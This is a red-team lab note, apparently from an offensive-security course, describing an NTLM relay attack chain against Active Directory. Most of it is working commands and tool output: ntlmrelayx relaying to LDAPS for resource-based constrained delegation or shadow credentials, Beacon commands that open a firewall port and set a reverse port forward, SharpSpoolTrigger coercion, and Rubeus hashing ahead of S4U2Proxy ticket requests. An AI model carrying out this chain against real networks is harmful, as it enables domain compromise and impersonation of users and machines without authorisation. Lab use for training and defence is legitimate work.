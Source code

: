 The steps are to coerce the service into authenticating to a malicious WebDAV server that we control and then relay the authentication.  A nice aspect of this attack is that we can force authentication to occur over any port, so we don't have to worry about needing PortBender (I can hear you all cheering).  All we need to ensure is that whatever port we choose is allowed inbound on the host firewall we're reverse port forwarding from.

1. The incoming authentication material will be that of the machine account.  ntlmrelayx can relay this to LDAP on a domain controller to abuse either RBCD (using the `--delegate-access` flag) or shadow creds (using the `--shadow-credentials` flag).  In either case, ensure you run the HTTP server on a port that will not clash with any of your HTTP listeners.  In this example, I've used port 8888.

```
sudo proxychains ntlmrelayx.py -t ldaps://10.10.122.10 --delegate-access -smb2support --http-port 8888
```

2. Once that's up and running, punch a hole in the firewall and set the reverse port forward.

```
beacon> powershell New-NetFirewallRule -DisplayName "8888-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8888
beacon> rportfwd 8888 localhost 8888
```

3. Then use SharpSystemTriggers to trigger the authentication.  The WebDAV URL needs to point to the reverse port forward.

```
beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe wkstn-1 wkstn-2@8888/pwned
```

4. Once the traffic hits ntlmrelayx, it will relay to the domain controller.

```
[*] HTTPD(8888): Connection from 127.0.0.1 controlled, attacking target ldaps://10.10.122.10
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.122.10:636-<><>-OK
[*] HTTPD(8888): Authenticating against ldaps://10.10.122.10 as DEV/WKSTN-1$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Attempting to create computer in: CN=Computers,DC=dev,DC=cyberbotic,DC=io
[*] Adding new computer with username: PVWUMPYT$ and password: 4!t1}}I_CGJ}0OJ result: OK
[*] Delegation rights modified succesfully!
[*] PVWUMPYT$ can now impersonate users on WKSTN-1$ via S4U2Proxy
```

5. As indicated by the output above, a new machine account **PVWUMPYT\$** was created with password `4!t1}}I_CGJ}0OJ`, which now has delegation rights to WKSTN-1$.  To complete the attack chain, calculate the AES256 hash from the password.

```
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /domain:dev.cyberbotic.io /user:PVWUMPYT$ /password:'4!t1}}I_CGJ}0OJ'
```

6. Then perform the S4U2Proxy to request service tickets of your choosing. [[Rubeus#s4u#AES256]]
7. Don't forget to remove the fake computer account.


The shadow credentials option will automatically dump a certificate file for you.
